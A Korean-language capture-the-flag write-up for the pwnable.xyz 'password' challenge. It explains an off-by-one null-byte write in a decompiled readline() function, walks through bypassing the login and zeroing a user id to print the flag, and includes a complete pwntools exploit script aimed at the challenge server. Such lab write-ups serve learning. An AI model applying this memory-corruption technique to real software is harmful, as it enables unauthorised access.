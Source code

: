 ```yaml
---
title: "[pwnable.xyz]password"
date: 2020-2-4
tags: [pwnable.xyz]
categories: [pwnable.xyz]
---
```


보호기법 다 걸려있다.

```
[*] '/vagrant/ctfs/challenge'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

여기서 취약점 터진다. 널바이트를 보내게되면 메모리주소 -1 위치를 0으로 셋팅해줄 수 있다.

```c
__int64 __fastcall readline(void *a1, int a2)
{
  int v2; // eax

  read(0, a1, a2);
  v2 = strlen(a1);
  *(a1 + v2 - 1) = 0;
  return (v2 - 1);
}
```

우선 login() 함수에서 readline()할 때 널로 보내게 되면 bypass 할 수 있다. 그러면 creds가 1로 셋팅되고 2번 메뉴를 사용할 수 있게 된다. 거기서 memset으로 flag를 다 널바이트로 바꿔준다. 그리고 여기서도 readline()으로 flag에 입력을 받는다. 근데 flag바로 뒤에 id가 존재해서 id를 0으로 덮어줄 수 있다. id를 0으로 만들었으니까 3번 메뉴로 flag를 읽어올 수 있다. 하지만 memset 해줬으니까 다시 flag를 읽어오는 4번 메뉴를 사용해서 flag 읽어오고 id는 0이니까 3번 메뉴로 flag 출력해주면 된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
# p = process('./challenge')
p = remote('svc.pwnable.xyz',30026)
win = e.symbols['win']
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)

def login(password):
	sla('>','1')
	sa(':',password)

def change(password):
	sla('>','2')
	sa(': \n',password)

def printf():
	sla('>','3')

def logout():
	sla('>','4')

sa(':','1234') # User ID:
login('\x00')
change('\x00')
logout()
printf()

p.interactive()
```

